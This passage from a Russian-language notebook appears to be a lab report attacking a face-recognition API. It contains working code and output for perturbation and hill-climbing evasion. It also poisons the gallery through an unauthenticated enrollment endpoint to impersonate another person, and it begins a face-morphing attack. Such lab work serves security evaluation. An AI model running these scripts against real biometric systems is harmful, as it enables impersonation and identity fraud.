

In [ ]:
# АТАКА 1a: замер по всем искажениям (метрика ASR из lab5: доля искажений, ломающих опознание)
rows = []
base_img = load_img(CONFIG["TEST_PHOTO"])
for kind, params in GRID.items():
    for pv in params:
        r = identify_image(perturb(base_img, kind, pv), note=f"{kind}={pv}")
        rows.append({"kind": kind, "param": str(pv), "name": r["name"], "score": r["score"], "recognized": r["recognized"]})
        print(f"{kind:11s} {str(pv):>6}: score={r['score']}  распознан={r['recognized']}  имя={r['name']}")

with open(BASE / "attack1_evasion.csv", "w", newline="", encoding="utf-8") as f:
    w = csv.DictWriter(f, fieldnames=["kind", "param", "name", "score", "recognized"])
    w.writeheader(); w.writerows(rows)

fail_rate = sum(1 for r in rows if not r["recognized"]) / len(rows)
SUMMARY.append({"attack": "1a evasion (искажения)", "result": f"ASR = {fail_rate:.0%} на {len(rows)} пробах"})
print(f"\nИтог: ASR = {fail_rate:.0%} (доля проб, где опознание пропало). Таблица: results/attack1_evasion.csv")

fig, axes = plt.subplots(1, 4, figsize=(16, 3), constrained_layout=True)
for ax, kind in zip(axes, ["noise", "blur", "jpeg", "brightness"]):
    pts = [(float(r["param"]), r["score"]) for r in rows if r["kind"] == kind and r["score"] is not None]
    if pts:
        xs, ys = zip(*sorted(pts)); ax.plot(xs, ys, "o-")
    ax.axhline(CONFIG["THRESHOLD"], color="r", ls="--", lw=1)
    ax.set_title(kind); ax.set_xlabel("сила"); ax.set_ylabel("similarity")
plt.savefig(BASE / "attack1_curves.png", dpi=150); plt.show()

### Подготовка иллюстраций №3. Атака 1a: примеры искажений и сводный график

Первое изображение: слева оригинал, правее — искажённые версии (сила искажений — из сетки GRID). Второе изображение строится из результатов `results/attack1_evasion.csv` без повторных запросов к серверу и охватывает все виды искажений, включая contrast, occlusion, rotate, отсутствующие на графике в ячейке атаки.




Сохранено: results\evidence\attack1_examples.png




Сохранено: results\evidence\attack1_chart.png


In [ ]:
# КАРТИНКИ ДЛЯ ОТЧЁТА 3: атака 1a — примеры искажений + график из CSV
orig = load_img(CONFIG["TEST_PHOTO"])
demo = [("noise", 25), ("blur", 6), ("jpeg", 8), ("occlusion", "центр")]
fig, axes = plt.subplots(1, len(demo) + 1, figsize=(2.6 * (len(demo) + 1), 3.5),
                         constrained_layout=True)
axes = np.array(axes).reshape(-1)
axes[0].imshow(orig); axes[0].set_title("оригинал", fontsize=10); axes[0].axis("off")
for ax, (k, prm) in zip(axes[1:], demo):
    ax.imshow(perturb(orig, k, prm)); ax.set_title(f"{k} = {prm}", fontsize=10); ax.axis("off")
fig.suptitle("Атака 1a: виды искажений (оценки — в results/attack1_evasion.csv)", fontsize=11)
fig.savefig(EVID / "attack1_examples.png", dpi=150)
plt.show()
print("Сохранено:", EVID / "attack1_examples.png")

csv_path = BASE / "attack1_evasion.csv"
if csv_path.exists():
    rows = list(csv.DictReader(open(csv_path, encoding="utf-8")))
    kinds = list(dict.fromkeys(r["kind"] for r in rows))
    thr = (LAST_RAW.get("identify") or {}).get("threshold") or 0.6
    n = len(kinds); cols = min(n, 4); nrows = -(-n // cols)
    fig, axes = plt.subplots(nrows, cols, figsize=(3.2 * cols, 2.7 * nrows),
                             constrained_layout=True, sharey=True)
    axes = np.array(axes).reshape(-1)
    for ax, kind in zip(axes, kinds):
        kr = [r for r in rows if r["kind"] == kind]
        nums = []
        for v in (r["param"] for r in kr):
            try:
                nums.append(float(v))
            except ValueError:
                nums.append(None)
        if all(v is not None for v in nums) and len(set(nums)) == len(nums):
            xs = nums; ticks = None
        else:
            xs = list(range(len(kr)))
            ticks = ([str(v) for v in nums] if all(v is not None for v in nums)
                     else [r["param"] for r in kr])
        pts = []
        for x, r in zip(xs, kr):
            try:
                y = float(r["score"])
            except (TypeError, ValueError):
                y = None
            if y is not None:
                pts.append((x, y, bool(r["recognized"]) and str(r["recognized"]) != "False"))
        if ticks:
            ax.set_xticks(xs); ax.set_xticklabels(ticks, rotation=45, fontsize=7)
        if pts:
            okx = [x for x, y, ok in pts if ok]; oky = [y for x, y, ok in pts if ok]
            badx = [x for x, y, ok in pts if not ok]; bady = [y for x, y, ok in pts if not ok]
            if okx:
                ax.plot(okx, oky, "o-", color="#1f77b4", label="опознан")
            if badx:
                ax.plot(badx, bady, "X", color="red", ms=10, label="не опознан")
        else:
            ax.text(0.5, 0.5, "нет данных", ha="center", va="center", transform=ax.transAxes)
        ax.axhline(thr, color="red", ls="--", lw=1)
        ax.set_title(kind, fontsize=10)
    for ax in axes[n:]:
        ax.axis("off")
    axes[0].set_ylabel("similarity")
    handles, labels = axes[0].get_legend_handles_labels()
    if handles:
        fig.legend(handles, labels, loc="upper right", fontsize=8)
    fig.suptitle(f"Атака 1a: similarity vs сила искажения (пунктир — порог {thr}, красный X — опознание пропало)", fontsize=10)
    fig.savefig(EVID / "attack1_chart.png", dpi=150)
    plt.show()
    print("Сохранено:", EVID / "attack1_chart.png")
else:
    print("results/attack1_evasion.csv не найден — сначала запусти ячейку атаки 1a.")

До атаки: {'name': 'Брэд Питт', 'score': 0.866, 'recognized': True, 'candidates': [('Брэд Питт', 0.866), ('Эталоны-хорошие', 0.8636), ('Эталоны-плохие', 0.7951)], 'threshold': 0.6, 'bbox': [312, 2, 817, 615], 'note': ''}
После подбора: {'name': 'Брэд Питт', 'score': 0.7259, 'recognized': True, 'candidates': [('Брэд Питт', 0.7259), ('Эталоны-хорошие', 0.7237), ('Эталоны-плохие', 0.7112)], 'threshold': 0.6, 'bbox': [332, 9, 817, 622], 'note': 'hillclimb final'} | сохранено: results\evidence\evasion_hillclimb.jpg




In [ ]:
# АТАКА 1b: итеративный подбор шума (аналог PGD через score-оракул)
def objective(r):
    # хотим, чтобы система "перестала узнавать": минимизируем similarity
    if r["score"] is not None:
        return -float(r["score"])
    return 0.0 if r["recognized"] else 1.0   # запасной вариант, если оценок в ответе нет

img = load_img(CONFIG["TEST_PHOTO"])
rng = np.random.default_rng(1)
cur = np.asarray(img, dtype=np.float32)
best = objective(identify_image(Image.fromarray(cur.astype("uint8"))))
hist = [best]
steps, eps = 40, 12.0
for i in range(steps):
    cand = np.clip(cur + rng.normal(0, eps, cur.shape), 0, 255)
    val = objective(identify_image(Image.fromarray(cand.astype("uint8"))))
    if val >= best:          # шаг принят, если стало "хуже для системы"
        cur, best = cand, val
    hist.append(best)
final = Image.fromarray(cur.astype("uint8"))
final.save(EVID / "evasion_hillclimb.jpg", quality=95)
res = identify_image(final, note="hillclimb final")
print("До атаки:", identify_image(img))
print("После подбора:", res, "| сохранено:", EVID / "evasion_hillclimb.jpg")
plt.figure(figsize=(5, 3), constrained_layout=True)
plt.plot(hist); plt.xlabel("шаг"); plt.ylabel("-similarity (выше = хуже для системы)")
plt.savefig(BASE / "attack1b_hillclimb.png", dpi=150); plt.show()
SUMMARY.append({"attack": "1b evasion (итеративный подбор)", "result": f"similarity {(-hist[0]):.3f} -> {(-hist[-1]):.3f}"})

## Атака 2. Отравление галереи (poisoning) — имперсонация другого человека (lab9)

Уязвимость: `POST /api/people` принимает записи без авторизации и без проверки личности — любой клиент может изменять галерею. Атакующий (`me*`) и жертва (Сталлоне, `st*`) — разные люди, что обеспечивает методологическую чистоту эксперимента.

Схема атаки:

1. **Проба поведения сервера** на служебной записи `zzz_test_poison`: проверяется, дописывает ли сервер фотографии к существующему имени. Запись удаляется после проверки.
2. **Зачисление жертвы**: создаётся профиль «Сталлоне» по фотографиям st1–st4; контрольное значение — система опознаёт st1 как «Сталлоне».
3. **Отравление**: фотографии атакующего (me2, me3) добавляются в профиль жертвы.
4. **Проверка имперсонации**: система опознаёт `me.jpg` как «Сталлоне» при similarity ≥ 0.6. Визуальное сходство атакующего и жертвы не требуется: в галерею записывается векторное представление атакующего под именем жертвы, и модель отвечает по отравленной галерее.

Опционально (флаг `POISON_EXISTING_ENABLED`): тот же сценарий для штатного профиля `Brad_Pitt` из базы LFW; выполняется только если проба показала режим «дописывания», иначе фотографии жертвы в галерее будут утрачены.


In [ ]:
# АТАКА 2a: имперсонация другого человека через отравление базы
# (1) проба режима сервера -> (2) зачисление жертвы -> (3) подкладываем свои фото ->
# (4) проверка: система опознаёт me.jpg как жертву
def people_count(name=None):
    # {имя: число фото} из GET /api/people; для одного имени - только его счётчик
    ppl = dump_people()
    d = {p.get("name"): p.get("photos") for p in ppl} if isinstance(ppl, list) else {}
    return d.get(name) if name else d

# --- Шаг 1. Проба: дописывает ли сервер фото при повторном POST с тем же именем ---
probe = CONFIG["PROBE_NAME"]
add_person(probe, [load_img("me2.jpg")])
c1 = people_count(probe)
add_person(probe, [load_img("me3.jpg")])
c2 = people_count(probe)
APPEND_MODE = isinstance(c1, int) and isinstance(c2, int) and c2 > c1
print(f"  проба: фото после 1-го POST = {c1}, после 2-го = {c2} -> режим "
      + ("ДОПИСЫВАЕТ" if APPEND_MODE else "ЗАМЕНЯЕТ (при повторном POST фото перезаписываются)"))
del_person(probe)
print(f"  расходная запись «{probe}» удалена")

# --- Шаг 2. Жертва: зачисляем Сталлоне (реально другой человек) ---
vname = CONFIG["VICTIM2_NAME"]
del_person(vname)   # если профиль уже был с прошлого запуска - чистим, чтобы не задваивался
vimgs = [load_img(p) for p in CONFIG["VICTIM2_PHOTOS"] if pathlib.Path(p).exists()]
add_person(vname, vimgs)
base_cnt = people_count(vname)
print(f"  профиль «{vname}» создан, фото в нём: {base_cnt}")
r0 = identify_image(CONFIG["VICTIM2_PHOTOS"][0], note="victim baseline")
print(f"  baseline: {CONFIG['VICTIM2_PHOTOS'][0]} -> «{r0['name']}» (score={r0['score']})")

# --- Шаг 3. ОТРАВЛЕНИЕ: фото атакующего в профиль жертвы ---
poison = [load_img(p) for p in CONFIG["VICTIM2_POISON_PHOTOS"] if pathlib.Path(p).exists()]
if APPEND_MODE:
    add_person(vname, poison)              # дописываем к фото жертвы
else:
    add_person(vname, vimgs + poison)      # сервер замещает: заливаем всё одной записью
after_cnt = people_count(vname)
print(f"  после отравления в профиле «{vname}» фото: {after_cnt}")

# --- Шаг 4. Проверка имперсонации: опознаёт ли система АТАКУЮЩЕГО как ЖЕРТВУ ---
r = identify_image(CONFIG["TEST_PHOTO"], note="poisoning check")
cands = list(r["candidates"] or [])
if r["name"]:
    cands.append((r["name"], r["score"]))
print(f"  вердикт для me.jpg: «{r['name']}» (score={r['score']})")
print("  все кандидаты:", cands)
scores = [s for n, s in cands if n == vname and isinstance(s, (int, float))]
hit = max(scores) if scores else None
ok = hit is not None and hit >= 0.6
print("\n" + (f"УСПЕХ: атакующий (me.jpg) опознан как «{vname}», similarity={hit:.3f} >= 0.6. "
      f"Атакующий и жертва - РАЗНЫЕ люди!" if ok
      else f"Имени «{vname}» нет в кандидатах или сходство < 0.6 — требуется донастройка конфигурации (см. вывод выше)."))
save_evidence("poisoning_v2.json", {"victim": vname, "victim_photos_before": base_cnt,
                                    "after_poison": after_cnt, "verdict": r,
                                    "victim_similarity": hit, "success": bool(ok)})
SUMMARY.append({"attack": "2a poisoning (имперсонация другого человека)",
                "result": (f"УСПЕХ: me.jpg -> «{vname}», similarity={hit}" if ok
                           else f"«{vname}» в ответе не появился")})

# --- Опция: отравить НАСТОЯЩИЙ профиль из базы (только в режиме ДОПИСЫВАЕТ) ---
if CONFIG.get("POISON_EXISTING_ENABLED") and APPEND_MODE:
    real = CONFIG["POISON_EXISTING_NAME"]
    before = people_count(real)
    add_person(real, [load_img("me2.jpg")])
    after = people_count(real)
    rr = identify_image(CONFIG["TEST_PHOTO"], note="poison existing profile")
    print(f"\n{real}: фото {before} -> {after}; me.jpg теперь: «{rr['name']}» ({rr['score']})")
    print("  кандидаты:", rr["candidates"][:3])
    SUMMARY.append({"attack": "2a-доп: отравление существующего профиля " + real,
                    "result": f"фото {before} -> {after}"})
elif CONFIG.get("POISON_EXISTING_ENABLED") and not APPEND_MODE:
    print("\nPOISON_EXISTING_ENABLED=True, но проба показала режим ЗАМЕНЯЕТ - "
          "настоящий профиль Brad_Pitt НЕ трогаем, чтобы не потерять фото жертвы из базы.")


  [/api/people] форма: files=[b64]: status=422
  [/api/people] форма: files=[dataURL]: status=422
  [/api/people] файлы: files=[бинарные]: status=200
  УДАЧНО: /api/people | файлы: files=[бинарные]
Материал сохранён: results\evidence\people_dump.json
В базе 5755 человек; полный список: results/evidence/people_dump.json
  [/api/people] форма: files=[b64]: status=422
  [/api/people] форма: files=[dataURL]: status=422
  [/api/people] файлы: files=[бинарные]: status=200
  УДАЧНО: /api/people | файлы: files=[бинарные]
Материал сохранён: results\evidence\people_dump.json
В базе 5755 человек; полный список: results/evidence/people_dump.json
  проба: фото после 1-го POST = 1, после 2-го = 2 -> режим ДОПИСЫВАЕТ
DELETE zzz_test_poison -> 200 {"deleted":"zzz_test_poison"}
  расходная запись «zzz_test_poison» удалена
DELETE Сталлоне -> 200 {"deleted":"Сталлоне"}
  [/api/people] форма: files=[b64]: status=422
  [/api/people] форма: files=[dataURL]: status=422
  [/api/people] файлы: files=[бинарные]

In [ ]:
# АТАКА 2a-ФИКС: добиваем имперсонацию (в первом заходе «Сталлоне» не попал в топ-3 кандидатов)
# Почему не вышел первый прогон (видно из выводов выше):
#  (а) топ-3 забит СОБСТВЕННЫМИ профилями атакующего: «Брэд Питт» 0.867, «Эталоны-хорошие» 0.864,
#      «Эталоны-плохие» 0.795 - «Сталлоне» просто не влез в тройку;
#  (б) после подкладывания фото профиль «разбавился»: жертва стала узнаваться слабее
#      (st1: 0.8983 -> 0.6794), т.е. сервер сводит все фото человека в один усреднённый эталон.
# План: чистим мусорные профили 2b -> досыпаем фото атакующего (флуд усреднённого эталона) ->
# проверяем; если свой профиль всё ещё выше - план Б с временным удалением «Брэд Питт».
vname = CONFIG["VICTIM2_NAME"]
cnt_before = people_count(vname)
print("Состояние до фикса: фото в профиле жертвы:", cnt_before)
r_before = identify_image(CONFIG["VICTIM2_PHOTOS"][0], note="жертва до фикса")
print(f"  жертва ({CONFIG['VICTIM2_PHOTOS'][0]}): «{r_before['name']}» ({r_before['score']})")

# 1) чистим профили-мусор от атаки 2b (они забивают топ-3)
for junk in ("Эталоны-хорошие", "Эталоны-плохие"):
    del_person(junk)

# 2) флуд: досыпаем ещё фото атакующего - усреднённый эталон жертвы уплывает к нашему лицу
extra = [load_img(p) for p in ("me4.jpg", "me5.jpg") if pathlib.Path(p).exists()]
if extra:
    add_person(vname, extra)
cnt_after = people_count(vname)
print("фото в профиле жертвы после флуда:", cnt_after)
r_after = identify_image(CONFIG["VICTIM2_PHOTOS"][0], note="жертва после флуда")
print(f"  жертва после флуда: «{r_after['name']}» ({r_after['score']})  <- деградация от отравления")

def _verdict(tag):
    r = identify_image(CONFIG["TEST_PHOTO"], note=tag)
    cands = list(r["candidates"] or [])
    if r["name"]:
        cands.append((r["name"], r["score"]))
    scores = [s for n, s in cands if n == vname and isinstance(s, (int, float))]
    hit = max(scores) if scores else None
    print(f"  [{tag}] me.jpg: «{r['name']}» ({r['score']})")
    print(f"    кандидаты: {cands}")
    return r, hit

r1, hit1 = _verdict("фикс 2a: проверка 1")
ok = hit1 is not None and hit1 >= 0.6

# 3) план Б: свой профиль «Брэд Питт» всё ещё выше - временно убираем, проверяем чисто, возвращаем
if not ok:
    print("\nПлан Б: временно удаляю профиль «Брэд Питт» (и сразу восстановлю из ne*):")
    del_person("Брэд Питт")
    r2, hit2 = _verdict("фикс 2a: проверка 2 (без «Брэд Питт»)")
    if hit2 is not None and hit2 >= 0.6:
        hit1, r1, ok = hit2, r2, True
    add_person("Брэд Питт", [load_img(p) for p in CONFIG["OLD_SELF_PHOTOS"] if pathlib.Path(p).exists()])
    r3 = identify_image(CONFIG["TEST_PHOTO"], note="восстановление профиля")
    print(f"  профиль «Брэд Питт» восстановлен из ne*; me.jpg снова: «{r3['name']}» ({r3['score']})")

if ok:
    print(f"\nИМПЕРСОНАЦИЯ ПОДТВЕРЖДЕНА: атакующий (me.jpg) опознан как «{vname}», similarity={hit1:.3f} >= 0.6")
    SUMMARY.append({"attack": "2a-фикс: имперсонация (чистка + флуд)",
                    "result": f"УСПЕХ: me.jpg -> «{vname}», similarity={hit1}"})
else:
    print("\n«Сталлоне» в топе так и не появился — требуется донастройка конфигурации (см. вывод выше).")
    SUMMARY.append({"attack": "2a-фикс: имперсонация (чистка + флуд)", "result": "не подтвердилась"})

save_evidence("poisoning_fix.json", {
    "victim_profile": vname,
    "photos_before_fix": cnt_before, "photos_after_flood": cnt_after,
    "victim_before_fix": {"name": r_before["name"], "score": r_before["score"]},
    "victim_after_flood": {"name": r_after["name"], "score": r_after["score"]},
    "check": {"verdict": r1, "victim_similarity": hit1},
    "success": bool(ok)})


Материал сохранён: results\evidence\people_dump.json
В базе 5754 человек; полный список: results/evidence/people_dump.json
Состояние до фикса: фото в профиле жертвы: 4
  жертва (st1.jpg): «Сталлоне» (0.6794)
DELETE Эталоны-хорошие -> 200 {"deleted":"Эталоны-хорошие"}
DELETE Эталоны-плохие -> 200 {"deleted":"Эталоны-плохие"}
  [/api/people] форма: files=[b64]: status=422
  [/api/people] форма: files=[dataURL]: status=422
  [/api/people] файлы: files=[бинарные]: status=200
  УДАЧНО: /api/people | файлы: files=[бинарные]
Материал сохранён: results\evidence\people_dump.json
В базе 5752 человек; полный список: results/evidence/people_dump.json
фото в профиле жертвы после флуда: 6
  жертва после флуда: «Sylvester_Stallone» (0.6506)  <- деградация от отравления
  [фикс 2a: проверка 1] me.jpg: «Брэд Питт» (0.8671)
    кандидаты: [('Брэд Питт', 0.8671), ('Сталлоне', 0.6677), ('Brad_Pitt', 0.4782), ('Брэд Питт', 0.8671)]

ИМПЕРСОНАЦИЯ ПОДТВЕРЖДЕНА: атакующий (me.jpg) опознан как «Сталлоне», simi

### Подготовка иллюстраций №4. Атака 2: отравление профиля жертвы

Иллюстрация из трёх частей: фотографии жертвы (`st*`), зачисленные в профиль «Сталлоне»; фотографии атакующего (`me*`), из которых me2/me3 добавлены в профиль жертвы; вердикт системы для `me.jpg` после отравления. Ячейка выполняется после атаки 2a (использует функцию `photo_grid`).




Сохранено: results\evidence\attack2_victim_base.png




Сохранено: results\evidence\attack2_added.png




Сохранено: results\evidence\attack2_result.png


In [ ]:
# КАРТИНКИ ДЛЯ ОТЧЁТА 4: атака 2 — poisoning (жертва = Сталлоне)
ST = sorted(pathlib.Path(".").glob("st*.jpg"))
ME = sorted(pathlib.Path(".").glob("me*.jpg"))
photo_grid(ST, "Фото жертвы: Сталлоне (st*.jpg) — зачислены в профиль «Сталлоне»", "attack2_victim_base.png")
photo_grid(ME, "Фото атакующего (me*.jpg); me2/me3 подложены в профиль жертвы", "attack2_added.png")

r = identify_image(CONFIG["TEST_PHOTO"], note="атака 2: вердикт системы")
lbl = ("«%s»" % r["name"]) if r["name"] else "не опознан"
fig, ax = plt.subplots(figsize=(4.0, 4.7), constrained_layout=True)
ax.imshow(load_img(CONFIG["TEST_PHOTO"])); ax.axis("off")
ax.set_title(f"me.jpg → система говорит: {lbl}\nsimilarity = {r['score']}", fontsize=11)
fig.savefig(EVID / "attack2_result.png", dpi=150)
plt.show()
print("Сохранено:", EVID / "attack2_result.png")


In [ ]:
# АТАКА 2b: порча эталонов — один человек, две записи (чёткие и блюрнутые фото)
if not CONFIG["ATTACKER_PHOTOS"] or CONFIG["TEST_PHOTO"] == r"C:\path\to\my_photo.jpg":
    print("Нужны: свои фото в ATTACKER_PHOTOS + чёткое фото TEST_PHOTO (того же человека).")
else:
    good = [load_img(p) for p in CONFIG["ATTACKER_PHOTOS"]]
    bad = [perturb(im, "blur", 8) for im in good]
    add_person("Эталоны-хорошие", good)
    add_person("Эталоны-плохие", bad)
    q = load_img(CONFIG["TEST_PHOTO"])
    r = identify_image(q, note="etalony")
    cands = r["candidates"] or parse_candidates(LAST_RAW.get("identify", {}))
    print("Вердикт:", r)
    print("Кандидаты (имя, сходство):", cands)
    save_evidence("enroll_quality.json", {"verdict": r, "candidates": cands})
    SUMMARY.append({"attack": "2b порча эталонов", "result": f"кандидаты: {cands}"})
    print("Записи 'Эталоны-*' потом удали через UI.")

  [/api/people] форма: files=[b64]: status=422
  [/api/people] форма: files=[dataURL]: status=422
  [/api/people] файлы: files=[бинарные]: status=200
  УДАЧНО: /api/people | файлы: files=[бинарные]
  [/api/people] форма: files=[b64]: status=422
  [/api/people] форма: files=[dataURL]: status=422
  [/api/people] файлы: files=[бинарные]: status=200
  УДАЧНО: /api/people | файлы: files=[бинарные]
Вердикт: {'name': 'Брэд Питт', 'score': 0.866, 'recognized': True, 'candidates': [('Брэд Питт', 0.866), ('Эталоны-хорошие', 0.8636), ('Эталоны-плохие', 0.7951)], 'threshold': 0.6, 'bbox': [312, 2, 817, 615], 'note': 'etalony'}
Кандидаты (имя, сходство): [('Брэд Питт', 0.866), ('Эталоны-хорошие', 0.8636), ('Эталоны-плохие', 0.7951)]
Материал сохранён: results\evidence\enroll_quality.json
Записи 'Эталоны-*' потом удали через UI.


## Атака 3. Face morphing — изображение, схожее с двумя разными людьми (impersonation)

Портрет атакующего (me.jpg) и портрет жертвы (st1.jpg) объединяются в одно изображение (морф). Векторное представление морфа оказывается близким к представлениям обоих людей — типовой сценарий подделки биометрических документов: одно изображение проходит проверку за двух человек. В эксперименте участвуют два разных человека.

Методика:

1. **Контрольное измерение**: verify(me.jpg, st1.jpg) — изображения атакующего и жертвы сами по себе не должны быть похожи (оценка заметно ниже порога); это контроль корректности эксперимента.
2. Лица вырезаются по координатам bbox из ответа `/api/identify` (сервер сообщает расположение лица) с запасом, чтобы детектор не терял лицо.
3. Строится сетка морфов по alpha из `np.linspace(0, 1, 11)`; для каждого значения проверяется обнаружение лица детектором и измеряются два сходства: морф–жертва и морф–атакующий.
4. **Критерий успеха**: существует alpha, при котором морф одновременно похож на обоих (обе оценки ≥ 0.3 у /api/verify; в идеале ≥ 0.6 — порог identify); в списке кандидатов identify для морфа присутствуют оба имени.


Baseline: verify(me.jpg, st1.jpg) - разные люди, сходство должно быть НИЗКИМ:
  схема POST /api/verify (из openapi.json): multipart/form-data, поля={'file1': 'string', 'file2': 'string'}
  score = 0.0982 (порог 0.3) -> не похожи - контроль пройден

Готовлю портреты: сервер сам показывает, где лицо (bbox в /api/identify), вырезаю его целиком.
  [me.jpg] лицо найдено (bbox=[312, 2, 817, 615]) -> портрет 512x512, лицо по центру, запас 35% (проверено сервером)
  [st1.jpg] лицо найдено (bbox=[156, 109, 319, 310]) -> портрет 512x512, лицо по центру, запас 35% (проверено сервером)
{'alpha': 0.0, 'face_in_morph': True, 'score_victim': 0.1014, 'same_victim': False, 'score_attacker': 1.0, 'same_attacker': True, 'identify_top': 'Брэд Питт=0.8637; Эталоны-хорошие=0.8615; Эталоны-плохие=0.7921'}
